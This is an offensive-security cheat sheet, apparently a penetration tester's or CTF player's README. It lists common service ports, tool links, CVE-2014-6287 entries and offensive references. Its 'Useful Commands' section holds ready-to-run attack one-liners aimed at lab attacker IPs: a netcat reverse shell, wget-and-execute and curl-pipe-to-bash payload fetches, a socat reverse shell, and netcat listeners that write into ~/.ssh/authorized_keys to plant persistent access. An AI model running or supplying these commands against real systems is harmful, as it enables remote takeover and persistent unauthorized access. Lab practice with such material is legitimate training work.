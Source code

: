 # CheatSheet

## Ports
| Service | Port      |
|:-------:|:---------:|
| FTP     | 20 / 21   |
| SSH     | 22        |
| Telnet  | 23        |
| SMTP    | 25        |
| DNS     | 53        |
| HTTP    | 80        |
| POP3    | 110       |
| HTTPS   | 443       |
| SMB     | 139 / 445 |
| NFS     | 2049      |
| MySQL   | 3306      |

## Tools
- [Rustscan](tool/rustscan.md)
- [Nmap](tool/nmap.md)
- [MSFVenom](tool/msfvenom.md)
- [Gobuster](tool/gobuster.md)
- [Hydra](tool/hydra.md)
- [John the Ripper](tool/john.md)
- [Hashcat](tool/hashcat.md)
- [Netcat](tool/netcat.md)

## Workflow by service
- [SSH](service/ssh.md)
- [SMB](service/smb.md)
- [Telnet](service/telnet.md)
- [NFS](service/nfs.md)
- [FTP](service/ftp.md)
- [SMTP](service/smtp.md)
- [MySQL](service/mysql.md)

## Useful Commands
### Shell payload
```
echo "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.4.49.251 4444 >/tmp/f" > shell.sh
```

### Download file
```
FILE=[FILE NAME]; wget http://10.4.49.251/$FILE -O /tmp/$FILE; chmod +x /tmp/$FILE; sh /tmp/$FILE
```
```
curl 10.10.14.7/[FILE] | bash
```

### LinEnum

```
wget http://10.4.49.251/LinEnum.sh -O /tmp/LinEnum.sh; chmod +x /tmp/LinEnum.sh; /tmp/LinEnum.sh
```
```
curl 10.10.14.7/LinEnum.sh | bash
```

### Socat
#### Target
```
wget http://10.4.49.251/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.4.49.251:4445
```

#### Attacker (Kali)
```
socat file:`tty`,raw,echo=0 TCP-L:4445
```

#### To upgrade more
```
export SHELL=bash; export TERM=xterm-256color; stty rows 60 columns 126
```

### Tramp (Emacs)

#### Basic
```
ls $HOME && { { ls $HOME/.ssh || mkdir $HOME/.ssh; } && nc -lp 7777 >> $HOME/.ssh/authorized_keys; }
```

#### Socat Pattern
```
ls $HOME && { { ls $HOME/.ssh || mkdir $HOME/.ssh; } && nc -lp 7777 >> $HOME/.ssh/authorized_keys; } || { nc -lp 7777 > /tmp/socat && chmod +x /tmp/socat && /tmp/socat file:`tty`,raw,echo=0 TCP-L:7777; }
```

#### Shell Upgrade Pattern
```
ls $HOME && { { ls $HOME/.ssh || mkdir $HOME/.ssh; } && nc -lp 7777 >> $HOME/.ssh/authorized_keys; } || { nc -lp 7777 > /tmp/upgrade-shell.sh && chmod +x /tmp/upgrade-shell.sh && . /tmp/upgrade-shell.sh; }
```

## CVEs
- CVE : 2014-6287 ([39161](cve/cve-2014-6287-39161.md))
- CVE : 2014-6287 ([49125](cve/cve-2014-6287-49125.md))


## Reference

Exploit DB  
https://www.exploit-db.com/

MSF Console Commands  
https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/

Meterpreter Commands  
https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/

GTFOBins  
https://gtfobins.github.io/

PayloadsAllTheThings / Reverse Shell Cheat Sheet
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

PayloadsAllTheThings / Linux - Privilege Escalation
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#find-suid-binaries

CrackStation  
https://crackstation.net/

Hash Analyzer  
https://www.tunnelsup.com/hash-analyzer/

CyberChef  
https://gchq.github.io/CyberChef/

Upgrading Simple Shells to Fully Interactive TTYs  
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

